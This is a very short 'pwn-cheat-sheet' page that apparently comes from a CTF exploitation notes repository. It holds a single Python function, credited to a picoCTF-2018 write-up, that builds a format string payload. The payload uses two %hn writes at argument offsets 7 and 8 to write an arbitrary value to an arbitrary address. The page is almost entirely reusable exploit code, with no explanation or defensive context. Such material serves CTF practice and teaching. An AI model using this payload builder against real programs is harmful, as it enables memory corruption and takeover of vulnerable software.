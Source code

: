 # pwn-cheat-sheet

### Format string - write value into address
###### taken from https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/12-echo_back-500/solution.md
```python
def write_memory(address, value):
  v1 = (value & 0x0000FFFF) - 8
  v2 = (value >> 16) - (value & 0x0000FFFF)

  if v2 < 0:
    v2 += 0x00010000

  ret = p32(address) + p32(address + 2) + '%{}x'.format(v1) + '%7$hn'

  if v2 != 0:
    ret += '%{}x'.format(v2)

  ret += '%8$hn'

  return ret
  ```
